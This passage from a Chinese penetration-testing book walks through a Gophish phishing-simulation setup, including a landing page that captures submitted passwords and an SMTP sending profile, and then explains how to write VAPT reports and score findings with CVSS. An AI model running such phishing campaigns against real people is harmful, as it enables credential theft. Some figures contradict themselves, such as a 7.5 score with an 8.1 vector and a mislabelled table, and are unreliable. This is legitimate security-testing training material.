    inflating: static/js/dist/app/gophish.min.js
    creating: static/js/dist/app/campaigns.min.js
    inflating: static/js/dist/app/autocomplete.min.js
    inflating: static/js/dist/app/settings.min.js
    inflating: static/js/dist/app/users.min.js
    inflating: static/js/dist/app/webhooks.min.js
    ```

    图 9.74：解压 `Gophish`

3.  **设置权限**：通过运行命令 `chmod +x gophish` 使 `Gophish` 二进制文件具有执行权限。参考图 9.75 的视觉指导：

    ```bash
    (ummedmeel@kali) ~/Downloads
    $ chmod +x gophish
    ```

    图 9.75：设置权限

4.  **启动 Gophish**：通过执行命令 `./gophish` 启动 `Gophish`。参考图 9.76 的视觉指导：

    ```bash
    (ummedmeel@kali) ~/Downloads
    $ ./gophish
    time=2023-07-05T22:31:02.223Z level=warning msg="No contact address has been configured."
    time=2023-07-05T22:31:02.310Z level=warning msg="Please consider adding a connect_address entry in your config.json"
    goose: migrating db environment 'production', version: 0, target: 20230202132237
    OK 20160311335168_0.1_2_add_events.sql
    OK 20160315135116_0.1_2_accounts.sql
    OK 20162712113242_0.1_2_create_from_col_results.sql
    OK 20162723123278_0.1_2_capture_results.sql
    OK 20162722083273_0.1_2_store_tmp_settings.sql
    OK 20162715142617_0.1_2_config.sql
    OK 2016605210902_0.1_2_campaign_scheduling.sql
    OK 20170108207103_0.1_2_result_statuses.sql
    ```

    图 9.76：启动 `Gophish`

5.  **访问 Gophish Web 界面**：打开浏览器并输入 `http://localhost:3333` 访问 `Gophish` 界面。使用默认用户名和密码 `admin:73e15a78b097c` 登录。参考图 9.77 的视觉指导。

    

    图 9.77：访问 `Gophish`

6.  **创建密码**：输入临时密码后，系统将提示创建一个新密码。参考图 9.78 的视觉指导：

    

    图 9.78：创建密码

7.  **设置 Gophish**：按照 `Gophish` Web 界面上的屏幕说明完成初始设置。包括设置管理员密码、配置邮件设置以及创建第一个钓鱼活动。参考图 9.79 的视觉指导：

    仪表板 (`Dashboard`)

    

8.  **点击邮件模板 (Email Templates)**：使用 `HTML` 或普通文本创建一个新模板。参考图 9.80 的视觉指导：

    

9.  **点击着陆页 (Landing Pages)**：创建一个新页面，受害者点击邮件链接后将进入该页面并提交个人数据。参考图 9.81 的视觉指导：

    新着陆页 (`New Landing Page`)

    名称：`Test Landing Page`

    导入站点：`HTML`

    

    - 获取提交数据 (`Capture Submitted Data`)
    - 获取凭据 (`Capture Passwords`)：凭据目前未加密。这意味着获取的密码以明文形式存储在数据库中。请联系支持。

    图 9.81：着陆页

10. **点击发送配置 (Sending Profiles)**：配置发送钓鱼邮件的邮箱详情。参考图 9.82 的视觉指导：

    新发送配置 (`New Sending Profile`)

    名称：`Test Profile`

    类型：`SMTP`

    邮箱：`electronicprofiles2014@gmail.com`

    主机：`smtp.gmail.com`

    用户名：`electronicprofiles2014@gmail.com`

    密码：`ignore` (勾选 Certificate Error)

    图 9.82：发送配置

11. **现在点击活动 (Campaigns)**：使用选定的模板和识别的用户组开始发送邮件。参考图 9.83 的视觉指导：

    

    图 9.83：活动

12. **探索 Gophish 仪表板 (Dashboard)**：访问有关活动的信息，例如发送、打开的邮件数量以及提交的数据。你还可以详细调查每个行项目，以了解受害者打开邮件的时间和提交的数据。基于此详细分析，你可以准备一份综合报告。示例图 9.84 展示了仪表板：

    

    图 9.84：`Gophish` 仪表板

> **注意**：通过利用钓鱼测试，组织可以主动解决漏洞、提高意识并完善事件响应能力，最终增强整体网络安全韧性。

## 结论

在本章中，我们探索了绕过安全控制的重要性、安全措施的进步以及在网络扫描期间绕过它们的技术。我们还讨论了各种反病毒回避技术和工具，如 `Metasploit` 模板、`Shelter`、`Unicorn`、`Phantom-Evasion` 和 `Invoke-Stealth`。此外，我们触及了尖端的 WAF 回避策略以及不断演变的社会工程方法，如钓鱼模拟和 `Gophish` 的使用。这些技能将使渗透测试人员能够绕过安全控制并评估周围的环境，执行高级攻击。此外，它还允许评估应用的安全控制的有效性，测试其韧性并识别潜在漏洞。

在接下来的章节中，我们将深入研究报告编写的艺术，这是该行业的一个关键方面。没有符合标准的良好报告，全面的评估就是不完整的。我们将提供详细报告的示例，涵盖技术和逻辑漏洞以及建议。此外，我们还将探索 `CVSS` 分数的计算和严重程度分类的决策过程。此外，我们将关注创建有影响力的演示和安全仪表板，以有效沟通任务。

# 加入我们书籍的 Discord 空间

加入书籍 Discord 工作空间以获取最新更新、优惠、全球技术动态、新发布以及与作者的互动：

`https://discord.bponline.com`


# 第 10 章

# 报告写作的艺术方法

## 引言

在本章中，我们将深入探讨报告编写的艺术，这是行业中一个至关重要的方面。如果没有符合要求的精心编写的报告，评估就是不完整的。我们将提供涵盖技术和逻辑漏洞的详细报告示例，并给出建议。我们还将探索 `CVSS` 评分计算、风险评估、风险优先级排序以及严重性分类。此外，我们将重点关注创建具有影响力的演示文稿和安全仪表板，以有效沟通评估结果。

## 结构

在本章中，我们将讨论以下主题：

- 报告编写概述
- 优秀报告的组成部分
- 利用 `CVSS` 评分
    - 影响 `CVSS` 评分的因素
    - 如何正确地解读和应用 `CVSS` 评分
- 风险评估与优先级排序
    - 量化风险以进行有效评估
- 网络安全评估报告类型
    - 执行摘要报告
    - 详细技术评估报告
    - 漏洞管理跟踪器
    - 详细报告示例
        - Web 应用程序 `VAPT` 报告编写示例
        - 网络 `VAPT` 报告编写示例
- 使用 `DefectDojo` 进行自动化漏洞管理

## 目标

本章旨在帮助你掌握网络安全领域有效的报告编写。它涵盖了基础知识和 `CVSS` 评分，旨在让你能够准确地理解和使用它们。它还引导风险评估，强调风险量化以进行更好的评估。本章探索了不同类型的网络安全报告，如执行摘要、详细技术评估和漏洞跟踪器。它提供了 Web 应用和网络漏洞的实操示例。最后，它介绍了使用 `DefectDojo` 进行自动化漏洞管理，增强你创建具有影响力的网络安全报告的能力。

## 报告编写概述

在网络安全评估中，报告编写至关重要，特别是漏洞评估和渗透测试（`VAPT`）。它涉及记录技术和非技术评估的发现、严重性、影响和建议。其目标是为评估结果提供清晰简洁的表示，帮助利益相关者理解识别出的漏洞或差距，并有效采取适当的风险缓解措施。

## 报告写作在网络安全中的重要性

`VAPT` 报告在安全人员、管理团队、相关利益相关者和客户之间的正式通信渠道中起着重要作用，特别是在以客户为中心的组织中。此外，这些报告作为评估过程的完整记录，捕获了 `VAPT` 评估期间采取的步骤、使用的工具和采用的方法。通过这种方式，文档确保了透明度和可追溯性，允许内部和外部实体进行彻底的审查和评审。此外，专业的报告可以桥接技术术语与操作见解之间的差距，使决策者更容易理解并执行提供的建议。

## 在综合评估中整合报告

将报告整合到综合 `VAPT` 评估中对于组织来说至关重要。这种方法对安全缺陷提供了整体理解，能够制定用于主动漏洞监控和管理的战略计划。通过提供漏洞、风险和建议修复措施的合并视图，整合报告成为整个漏洞管理生命周期中的宝贵参考。它允许组织监控已实施措施的有效性，并采取必要的行动以维持长期稳健的安全态势。


> 提示：对于在行业法规或机构监管下运行的企业，详尽且精确的报告具有极重要的性。它使他们能够安全态势、风险管理努力以及遵守监管指南的承诺。结构良好的报告可以增强利益相关者、客户和监管机构之间的信任和信心，确保安全协议的透明度。

## 优秀报告的组成部分

`VAPT` 报告必须遵守适用的指南和监管要求，这些要求在不同组织之间、不同行业标准之间、甚至不同国家之间可能会显著不同。在情况下，渗透测试报告应涵盖所有监管和合规机构所需的最低基线标准。

因此，通过彻底理解这些不同的要求，我们可以创建一个包含以下核心部分的综合报告，如表 10.1 所示：

| 组件 |  |
| --- | --- |
| 封面 | 包含审计的必要细节，如被审计方和审计机构名称、评估名称、报告类型和发布日期。 |
| 版本控制 | 提供报告发布历史信息。 |
| 目录 | 列出报告中的所有章节和子章节。 |
| 项目详情 | 包含评估范围、涉及的 `POC` 和项目时间表的细节。 |
| 执行摘要 | 总结评估的关键方面，如 `CVSS` 评分、严重性矩阵、漏洞列表和观察总结。 |
| 按严重性划分漏洞 | 展示基于严重性级别的漏洞分布。 |
| 详细报告 | 提供漏洞的全面细分，包括其细节和建议的修复步骤。 |
| 附录-1 | 提供与侦察发现相关的细节，包括开放端口、我们树图和运行服务列表。 |
| 附录-2 | 提供信息，如评估中使用的 `VAPT` 方法和方法论、高层项目参与，涉及使用的工具集细节以及 `SME`（领域专家）信息。 |

**表 10.1：杀毒软件规避技术**（注：原文标题似乎与表格内容不匹配，此处予以保留）

让我们深入研究上表列出的每个组件以进行详细探索：

- **封面**：`VAPT` 报告的封面提供了高层项目参与的概述，包括以下细节：
    - 被审计组织名称
    - 审计组织名称
    - 报告类型
    - 报告发布日期

下面展示了详细技术 `VAPT` 报告的示例封面设计，如图 10.1 所示：


# 漏洞评估与渗透报告

## Web 应用程序

## 被审计公司名称

## 审计公司名称与地址

**图 10.1：封面**

- **版本控制**：报告的版本控制部分管理其历史，包括贡献者详情（编写者、评审者和批准者），以及初始发布日期和带有各自发布日的后续版本。合规性要求对文档进行适当控制以便于追溯到之前的版本，如图 10.2 所示：

| 文档版本控制 |
| --- |
| 文档版本 | [V1.0 - 2023] |
| 报告标题 | [Web 应用程序 VAPT 报告] |
| 报告提交日期 | [27/07/2023] |
| 报告类型 | [最终报告] |
| 账号 | [2023-VAPT-CLIENT-CODE] |
| 提交至 | [客户 POC 名称] |

| 报告所有权 |
| --- |
| 报告创建者 | [渗透员名称] |
| 报告批准者 | [审计团队的高级人员] |

**图 10.2：版本控制**

- **目录**：该组件通过列出所有章节和子章节为报告提供高层指南，如图 10.3 所示：

目录

文档版本控制................................................ 1
目录 ........................................................................ 2
范围 ............................................................................ 3
项目时间表................................................................ 3
执行摘要 ................................................................ 4
常见漏洞评分系统............................................................... 5
按严重性划分漏洞分布........................................................... 6
SQL 注入.................................................................................................... 7
恶意文件上传..................................................................................................... 9
跨站脚本 - 存储型............................................................... 10
点击劫持.................................................................................................. 11
缺少安全标志的 Cookie ............................................................................. 12
私有 IP 泄露....................................................................................... 12
附录-1.................................................................................................... 13
附录-2..................................................................................................... 14

**图 10.3：目录**

- **交付详情（Engagement details）**：此组件旨在向客户/读者提供对评估的详细理解，涵盖以下信息：
  - 范围详情
  - 单点联系人 (`SPOC`) 详情
  - 项目时间线

以下是交付详情部分的示例，如图 10.4 所示：

## 范围 (Scope)

以下列表概述了根据本次评估的工作范围 (`SOW`) 定义的项目项目范围。

| Web 应用程序 | https://client_name.com |
| --- | --- |

## SPOC (单点联系人) 详情

| 被审计公司 SPOC | 审计公司 SPOC |
| --- | --- |
| Vijendra Singh Meel | Ummed Meel |
| 高级经理 – 网络安全 | 助理总监 – 网络安全 |
| vijendra@xyz.com | ummed@xyz.com |

## 项目时间线

| 评估开始日期 | 评估结束日期 |
| --- | --- |
| 2023年7月3日 | 2023年7月21日 |

机密

图 10.4: 交付详情

- **执行摘要（Executive summary）**：此组件包含有关评估的关键信息，为客户的 C 级高管提供范围资产安全状况的概述。它涵盖了以下领域：
  - 观察总结
  - 漏洞分布
  - `CVSS` 评分和严重性矩阵

在接下来的章节中，我们将深入探讨 `CVSS` 评分计算和严重性矩阵。以下是执行摘要部分的示例，如图 10.5 和图 10.6 所示：

图 10.5 显示了执行摘要、发现总结以及漏洞分布，详细内容如下：

## 执行摘要

XYZ 有限对 ABC 有限的 Web 应用程序进行了全面的漏洞评估和渗透测试 (`VAPT`)。我们发现了关键漏洞，我们的专家团队提供了详细的建议以加固应用程序的安全性。

## 发现总结

下表列出了在评估期间检测到的漏洞：

| 严重程度 | 关键 | 高 | 中 | 低 | 提示性 |
| --- | --- | --- | --- | --- | --- |
| 漏洞数量 | 1 | 2 | 1 | 1 | 1 |

## 漏洞分布

下方的饼图展示了根据严重程度划分的漏洞分布：


图 10.5: 执行摘要

图 10.6 展示了计算 `CVSS` 评分的指标，具体如下：

## 通用漏洞评分系统 (Common Vulnerability Score System)

`CVSS`（通用漏洞评分系统）是一种用于评估软件安全漏洞严重程度的标准方法。它帮助安全专业人员和组织理解潜在影响并优先考虑响应措施。

`CVSS` 评分类型：

1. **基础分（Base Score）**：代表漏洞的固有属性，不依赖于环境。根据访问复杂度、可利用性和影响等因素评估严重性。
2. **时态分（Temporal Score）**：考虑可能随时间变化的因素，例如利用工具的可用性和修复程序的存在。
3. **环境分（Environmental Score）**：评估漏洞在特定环境中的影响，包括系统重要性和缓解措施。

报告基于 `CVSS v3.0` 基础分，评分根据下方的参考网站计算：

`https://www.first.org/cvss/calculator/3.0`

漏洞的严重性根据以下风险矩阵确定，基于：

| 严重程度 | 分值范围 | 颜色编码 |
| --- | --- | --- |
| 关键 (Critical) | 9.0 - 10.0 | |
| 高 (High) | 7.0 - 8.9 | |
| 中 (Medium) | 4.0 - 6.9 | |
| 低 (Low) | 0.1 - 3.9 | |
| 无 (None) | 0.0 | |

图 10.6: 通用漏洞评分系统

- **按严重程度划分的漏洞分布（Severity-wise vulnerability distribution）**：此部分按严重程度列出了观察及其对应的 `CVSS` 评分。在验证过程中，该表显示了状态。以下是分布部分的示例，如图 10.7 所示：

| 漏洞名称 | 严重程度 | CVSS 评分 |
| --- | --- | --- |
| SQL 注入 | 关键 | 9.1 |
| 恶意文件上传 | 高 | 8.8 |
| 存储型跨站脚本 | 高 | 7.1 |
| Cookie 未安全 | 中 | 4.3 |
| 信息泄露 | 低 | 3.7 |
| 无 | 提示性 | 0.0 |

图 10.7: 按严重程度划分的漏洞分布

- **详细报告（Detailed report）**：此组件旨在提供有关漏洞的详细信息，包含以下内容（无论是否用于渗透测试）：
  - 漏洞名称
  - `CVSS` 评分
  - 描述
  - 受影响范围
  - 漏洞证明 (`PoC`)
  - 修复建议
  - 参考资料

以下是详细报告部分的示例，如图 10.8 所示：

## SQL 注入 (关键)

`SQL` 注入是一种安全漏洞，攻击者在 Web 输入字段中插入恶意 `SQL` 代码，可能导致访问敏感信息（如凭据和记录）、修改或删除关键数据。

## 受影响范围 (Affected Endpoint)

`https://192.168.29.25/bwapp/?title=sqli`

## 漏洞证明 (Proof of Concept)

```
后端数据库: MySQL
操作系统: Windows
Web 应用程序技术: PHP 5.6.30, Apache 2.4
```

## 修复建议 (Remediation)

为了防止注入，Web 开发人员应遵循安全编码规范。使用预语句或参数化查询将用户输入与代码分离，将用户提供的数据视为而非执行代码。定期的安全测试和代码审查对于识别漏洞至关重要。

## 参考资料 (References)

- `https://owasp.org/www-community/attacks/SQL_Injection`
- `cwe.mitre.org/definitions/89.html`

- **附件 1（Annex-1）**：此组件旨在包含有关目标的所有侦察数据，包括在侦察阶段收集的信息，无论是否用于渗透测试。它包含：
  * 开放端口
  * 运行服务
  * Web 映射

## 附件 1 (Annexure - 1)

附件概述了评估期间识别的方面，包括开放端口、运行服务、操作系统和 Web 映射。

| 目标 IP | [Target_IP] |
| 主机名 | [Target_Host_Name] |
| 操作系统详情 | Ubuntu 20.10 |

| 开放端口 & 协议 | 服务 |
| --- | --- |
| 服务 | 80/TCP | http |
| | 443/TCP | https |
| | 21/TCP | FTP |
| | 22/TCP | SSH |

| 目录 | 页面 |
| --- | --- |
| Web 爬虫 | /users | index.php |
| | /backup | gallery.php |

图 10.9: 附件 -1

提示：此附件有两个作用：首先，它为客户提供了评估的完全透明；其次，有时看似不紧的侦察数据可以为资产所有者提供可操作的信息。例如，识别资产上运行的不必要服务有助于减少攻击面。

- **附件 2（Annex-2）**：此组件涵盖以下列出的信息，这些信息可能没有直接用途，但展示了审计机构的能力：
  * `VAPT` 方法和流程
  * 领域专家 (`SME`) 详情
  * 服务组合

以下是附件 2 示例，如图 10.10 和图 10.11 所示：

## 附录 - 2

附录提供了 `VAPT` 方法和方法论的全面概述、领域专家（`SMEs`）详细信息以及审计机构的服务组合。

## VAPT 方法和方法论

对于有效的进级 Web 应用测试，全面且有体系的方法对于识别潜在漏洞和提供安全建议至关重要。在 `XYZ Limit`，我们遵循标准化的方法以确保彻底的漏洞检测和报告。高级 Web 应用测试按以下阶段进行：

1. 规划与侦察
2. 威胁建模与风险评估
3. 漏洞扫描
4. 手动测试
5. 攻击与概念证明（`POC`）开发
6. 报告


图 10.10: 附录 -2 (VAPT 方法和方法论)

图 10.11 展示了服务提供公司专家和和服务组合的深度视图，如下所示：

## 领域专家（SMEs）详细信息

以下是参与此项目的领域专家（`SMEs`）信息：

| 姓名 | 职位 | 教育背景 | 认证 | 职业经验 | 专业专长 |
| --- | --- | --- | --- | --- | --- |
| [SME Name] | 助理总监 | 技术学（荣誉学位） | CISA, CEH, CHFI | 10 年 | 红队测试, VAPT, |

## 服务组合

`XYZ. Limited` 提供广泛的网络安全服务。以下列表概述了我们的全面产品：

| 服务 | 描述 |
| --- | --- |
| 渗透测试 | 识别并解决系统中的漏洞 |
| 漏洞评估 | 评估 IT 基础设施中的弱点 |
| 应急响应 | 快速响应以缓解安全泄露 |
| 安全咨询 | 增强整体安全态势的专家指导 |
| 安全审计 | 对安全措施和策略进行彻底审查 |
| 云安全 | 评估并量化潜在的安全风险 |

图 10.11: 附录 -2 (专家及服务组合)

此外，为了全面了解漏洞评估报告中应涵盖的特定细节，以及渗透测试报告所需的额外深度信息，让我们在下面详细探讨每一个项：

## 漏洞评估报告

漏洞评估（`VA`）报告的编写涉及记录对系统、网络或应用程序进行漏洞评估的发现和产结果。报告应全面列出所有识别出的漏洞，无论其可利用性如何。在详细说明漏洞实例时，必须包含以下信息作为最低基准：

- 漏洞名称
- `CVSS` 分值
- 严重
- 漏洞优先级评分
- 描述
- `CVE` 或 `CWE` 引用
- 影响
- 修复建议
- 参考文献

## 渗透测试报告

渗透测试（`PT`）报告作为渗透测试人员与客户之间的正式沟通，展示对系统、网络、`API`、云或应用程序进行渗透测试的结果。在详细描述漏洞实例时，`PT` 报告应包含以下基本信息：

- 漏洞名称
- `CVSS` 分值
- 严重
- 漏洞优先级评分
- 描述
- `POC`
- 现现步骤
- `CVE` 或 `CWE` 引用
- 影响
- 修复建议
- 参考文献

> 提示：最初，审计机构应以 `CSV` 格式提交报告草稿给被审计机构。在与被审计团队就所有发现达成一致后，可以准备最终报告并以密码保护的 `PDF` 格式共享。

## 风险评估与优先级

风险评估和优先级排序对于 `VAPT` 和技术风险评估至关重要。它涉及识别和评估可能影响组织的潜在风险和漏洞。通过根据严重程度和关键性对风险进行排序，组织可以专注于处理漏洞并加强其安全性。定期的风险评估有助于组织保持警惕并对威胁产生适应性。

## 量化风险以进行有效评估

在 `VAPT` 中，量化风险意味着为漏洞严重性、资产类型、关键性、环境、易利用性和安全控制的有效性等因素分配数值。可以使用不同的方法（如风险评分模型和矩阵）进行风险量化。它们有助于评估与每个漏洞相关的风险并确定修复优先级。下面展示了一个基于风险评分的漏洞优先级评分（`VPR`）矩阵示例，如图 10.12 所示。

| 序号 | 指标 | 评分标准 | | | | |
| --- | --- | --- | --- | --- | --- | --- |
| 1 | 漏洞严重性 | 紧急 | 高 | 中 | 低 | |
| | | | 20 | 15 | 10 | 5 |
| 2 | 资产类型 | UAT | 预发布 | DR | 生产 | | |
| 3 | 资产关键性 | 高价值资产 | 标准资产 | | | | |
| | | | 20 | 15 | 10 | | |
| 4 | 资产环境 | 连网资产 | 内部资产 | | | | |
| | | | 20 | 5 | | | |


| 5 | 易利用性 | CVSS=8 | CVSS=6 | CVSS=4 | CVSS<4 | | |

| | | | 15 | 10 | 3 | 1 | | |

| 6 | 风险等级 | P1 | P2 | P3 | P4 | | |

| | | | 90-100 | 70-89 | 40-69 | 0-39 | |

图 10.12: 风险量化

为了更好地理解，让我们考虑一个真实场景来优先考虑漏洞修复：

## 场景

在一个面向互联网的高价值资产中发现了一个 `CVSS` 分值为 9.1 的紧急严重性漏洞。为了计算 `VPR`，分配的分如表 10.2 所示。

| 序号 | 指标 | 名称 | | | | | |

|---|---|---|---|---|---|---|---|

| 1 | 漏洞严重性 | 紧急 | 高 | 中 | 低 | | |

| | | | 20 | 15 | 10 | 5 | | |

| 2 | 资产类型 | UAT | 预发布 | DR | 生产 | | |

| 3 | 资产关键性 | 高价值资产 | 标准资产 | | | | | |

| | | | 20 | 15 | 10 | | | |

| 4 | 资产环境 | 连网资产 | 内部资产 | | | | | |

| | | | 20 | 5 | | | | |

| 5 | 易利用性 | CVSS=8 | CVSS=6 | CVSS=4 | CVSS<4 | | | |

| | | | 15 | 10 | 3 | 1 | | | |

| 6 | 风险等级 | P1 | P2 | P3 | P4 | | | |

| | | | 90-100 | 70-89 | 40-69 | 0-39 | | |

表 10.2: 漏洞优先级评分 (VPR) 矩阵

总分为 95，属于 `P1` 类别，需要立即关注。

> 提示：风险量化和评估提供了优先级排序、数据驱动决策、资源优化、主动安全、合规性遵循以及更好的利益相关者沟通。

## 利用 CVSS 分值

通用漏洞评分系统（`CVSS`）是一种广泛采用的评估漏洞严重性的行业标准。它分配了 0 到 10 的数值，分值越高表示漏洞越严重。这些分值有助于安全人员确定优先级并协助组织制定补丁策略。

## 影响 CVSS 分值的因素

以下是影响 `CVSS` 分值的因素，如图 10.3 所示：

| CVSS 分值类型 | 描述 |

|---|---|

| 基础分 | 基础分代表漏洞对目标的潜在影响，基于内在特性，不考虑时间或环境因素。计算基础分使用以下指标：<br>• 攻击向量 (`AV`)<br>• 攻击复杂度 (`AC`)<br>• 所需权限 (`PR`)<br>• 用户交互 (`UI`)<br>• 范围 (`S`)<br>• 机密性 (`C`)<br>• 完整性 (`I`)<br>• 可用性 (`A`) |

| 时间分 | 时间分考虑随时间变化的动态因素，影响漏洞的整体严重性。计算结合了以下指标：<br>• 利用成熟度 (`E`)<br>• 修复水平 (`RL`)<br>• 报告可靠性 (`RC`) |

| 环境分 | 环境分考虑组织环境和基础设施的独特特征。它遵循以下指标：<br>• 修改的基础指标<br>• 机密性要求 (`CR`)<br>• 完整性要求 (`IR`)<br>• 可用性要求 (`AR`) |

表 10.3: 影响 CVSS 分值的因素

定性严重性标准可以应用于所有类型的 `CVSS` 分值，如表 10.4 所示：

| 严重性 | 分值范围 | 颜色编码 |

|---|---|---|

| 紧急 | 9.0 - 10.0 | |

| 高 | 7.0 - 8.9 | |

| 中 | 4.0 - 6.9 | |

| 低 | 0.1 - 3.9 | |

| 无 | 0.0 | |

表 10.4: 定性严重性标准

## 合理地解释和应用 CVSS 分值

在本节中，我们将使用真实世界的漏洞示例深入探讨计算 `CVSS` 分值的详细过程。我们将通过一个展示该过程的场景并对每个指标及其对应值进行详细说明。

## 示例 1：SQL 注入漏洞

在这里，我们将探讨特定场景的 `CVSS` 评分计算，概述如下：

- 描述：该电子商务平台允许用户通过在搜索栏输入关键词进行搜索。然而，网站的 `SQL` 查询缺乏适当验证，由于直接将用户输入整合到查询中，容易受到 `SQL` 注入攻击。

- 漏洞：该漏洞源于对用户输入的处理不当，使得渗透测试人员能够向查询中注入恶意 `SQL` 代码。

- 攻击：渗透测试人员在搜索栏中巧妙地构造恶意输入，更改了查询的行为，导致其绕过原始搜索条件，连续地从 `products` 表中检索所有数据。

- `CVSS` 分数与向量字符串：

`7.5` & `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`

- `CVSS 3.1` 基础分指标说明：我们在使用网站 `https://www.first.org/` 计算分数，如图 10.13 所示：


下表 10.5 提供了每个指标的解释及其值和注释：

| 指标 | 值 | 注释 |

|---|---|---|

| `AV` (攻击向量) | 网络 | 攻击向量被指定为“网络”，因为攻击者可以通过网站的搜索功能远程利用该漏洞。 |

| `AC` (攻击复杂度) | 低 | 攻击复杂度被类为低，因为攻击者不需要任何特殊条件或资源即可利用该漏洞。 |

| `PR` (所需权限) | 无 | 攻击者不需要任何权限即可执行 `SQL` 注入攻击。 |

| `UI` (用户交互) | 无 | 攻击不需要用户交互。 |

| `S` (范围) | 未改变 | 攻击的影响限于 `Web` 应用程序，不影响其他组件。 |

| `C` (机密性) | 高 | 攻击导致高机密性影响，因为它允许未经授权访问敏感数据，包括客户信息。 |

| `I` (完整性) | 无 | 攻击不直接影响数据完整性。 |

| `A` (可用性) | 无 | 攻击不影响系统可用性。 |

表 10.5：`CVSS` 指标解释

## 示例 2：权限提升

- 描述：在一个电子商务应用程序中，用户可以注册客户并使用登录页面访问账户。遗憾的是，该应用程序包含一个便于权限提升的漏洞，允许渗透测试人员获得对系统的未经授权管理访问。

- 漏洞：该 `Web` 应用程序的漏洞源于不充分的用户验证和授权过程。具体而言，应用程序在处理请求期间未能充分验证用户权限，导致攻击者能够操纵访问权限。

- 攻击：为了利用权限提升漏洞，渗透测试人员巧妙地构造了一个针对 `Web` 应用程序的恶意请求。通过篡改请求参数或使用特定方法，渗透测试人员获得了操纵其用户角色或权限的能力，可能访问未经授权的功能或敏感数据。

- `CVSS` 分数与向量字符串：

`7.5` & `CVSS: 3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N`

- `CVSS 3.1` 基础分说明：

我们将使用网站 `https://www.first.org/` 计算分数，如图 10.14 所示：

| 基础分 | 8.1 (高) |

|---|---|

| 攻击向量 (`AV`) | 范围 (`S`) |

| 网络 (`N`) 邻接 (`A`) 本地 (`L`) 物理 (`P`) | 未改变 (`U`) 改变 (`C`) |

| 攻击复杂度 (`AC`) | 机密性 (`C`) |

| 低 (`L`) 高 (`H`) | 无 (`N`) 低 (`L`) 高 (`H`) |

| 所需权限 (`PR`) | 完整性 (`I`) |

| 无 (`N`) 高 (`H`) | 无 (`N`) 低 (`L`) 高 (`H`) |

| 用户交互 (`UI`) | 可用性 (`A`) |

| 无 (`N`) 需要 (`R`) | 无 (`N`) 低 (`L`) 高 (`H`) |

图 10.14：基础分指标解释

下表 10.6 提供了每个指标的解释及其分配的值和注释：

| 指标 | 值 | 描述 |

|---|---|---|

| `AV` (攻击向量) | 网络 | 漏洞可以通过网络利用，将攻击向量分类为“网络”。 |

| `AC` (攻击复杂度) | 低 | 攻击复杂度为低，因为权限提升所需的精力极少且不需要特殊条件 |

| `PR` (所需权限) | 低 | 攻击者最初需要用户权限来启动攻击，但可以提升权限以获得管理访问 |

| `UI` (用户交互) | 无 | 它不需要任何用户交互 |

| `S` (范围) | 未改变 | 漏洞的影响限于应用程序环境，不影响其他组件 |

| `C` (机密性) | 高 | 权限提升导致机密数据大量丢失 |

| `I` (完整性) | 高 | 权限提升允许修改敏感数据，构成了完整性风险 |

| `A` (可用性) | 无 | 权限提升不直接影响系统可用性 |

表 10.6：`CVSS` 指标解释

> 提示：在 `VAPT` 评估中使用 `CVSS` 计算可以带来一致的严重性评分、数据驱动的风险优先级排序、准确的影响评估以及与利益相关者更好的沟通等好处。

## 网络安全报告类型

不同的网络安全评估报告具有特定的目标和关注领域。常见的 `VAPT` 评估报告类型包括：

### 执行摘要报告

执行摘要报告是一份面向高层利益相关者（如 C 级高管和管理层）的非技术文档。它概述了 `VAPT` 评估中的关键发现、严重漏洞和安全风险。它还概述了评估范围和风险态势，帮助决策者做出明智的改进和风险缓解策略。为了更好地了解此报告，请参考本章早期部分“一份良好的报告的组件”下的“执行摘要”。

### 详细技术评估报告

详细技术评估报告是一份为 `IT` 团队、`DevOps`、开发人员和系统管理员等技术人员设计的综合文档。该报告提供了每个漏洞的详细描述、其严重性、影响和建议的步骤。其主要目的是帮助技术专家理解漏洞并为组织的 `IT` 基础设施实施有效的安全措施。此报告将遵循本章早期“一份良好的报告的组件”节中的指南。

### 漏洞管理跟踪器

漏洞管理（`VM`）跟踪器是监控和管理在任务（如 `VAPT`）中发现的安全漏洞的实用工具。它作为一个中心数据库，根据严重性对漏洞进行记录和优先级排序。`VM` 跟踪器便于与客户实时共享关键发现，从而及时解决。安全团队可以分配负责人、截止日期并跟踪进度，以实现有效的漏洞管理。图 10.15 显示了漏洞管理的示例：

| 客户名称：LLC Limited | 开启 | 2 | 严重0 中等0 高0 低0 | 备注 |

|---|---|---|---|---|

| 1 SQL 注入 | 开启 | CWE | 未完成 | |

| 2 敏感信息泄露 | 严重 | CWE | 未完成 | |

| 3 恶意文件上传 | 高 | CWE | 未完成 | |

| 4 弱 SSL/TLS | 开启 | CWE | 未完成 | |

| 5 易的查询字典 | 开启 | CWE | 未完成 | |

| 6 登录页面暴力破解 | 开启 | CWE | 未完成 | |

| 7 跨站脚本 | 低 | CWE | 未完成 | |

| 8 不恰的错误处理 | 开启 | CWE | 未完成 | |

图 10.15: 漏洞管理跟踪器

> 提示：良好的 `VAPT` 报告应包含执行摘要、范围、方法论、详细的漏洞发现、风险评估、修复建议、合规性遵循情况以及用于清晰显示的视觉辅助工具。

## 详细报告示例

虽然 `VAPT` 和技术安全评估有许多垂直领域，但我们将关注 `IT` 景观中的几个关键方面以提供示例报告。

## Web 应用程序 VAPT 报告编写示例

`Web` 应用程序 `VAPT` 报告提供了对 `Web` 应用程序进行评估的全面概述。我们将使用技术漏洞（如 `SQL` 注入）的示例来说明报告的编写，并理解解释特定漏洞实例所需的关键细节，如图所示：

在图 10.16 中，漏洞的名称、严重性、`CVSS` 评分、描述、受影响的端点以及相应的概念证明（`PoC`）如下所示：

## SQL 注入

在对网站进行评估期间，我们发现了一个易受 `SQL` 注入攻击的端点。我们成功利用了该漏洞并获得了 `OS` shell。`SQL` 注入是一种安全漏洞，攻击者在 `Web` 应用程序输入字段中注入恶意的 `SQL` 代码，从而获得对敏感数据的未经授权访问、记录操作以及对整个数据库的控制。

### 受影响的端点

- `https://192.168.29.25/buswapp/sqli_1.php?title&action=search`

### 概念证明


图 10.16: Web 应用程序 VAPT 报告编写示例

图 10.17 展示了完整的概念证明（`POC`）以及下文概述的逐步复现步骤说明：

```
[02:58:58] [INFO] 后端 DBMS 是 MySQL

web 服务器操作系统: Windows

web 应用程序技术: PHP 5.6.30, Apache 2.4.25

back-end DBMS: MySQL > (connection error)

[02:58:58] [INFO] 正在获取数据库：'swapp' 的表

Database: swapp

- blog

- heroes

- mevisis

- users

- visitors
```


```
02:57:02 Error 后端 DBMS 是 MySQL

web 服务器操作系统: Windows

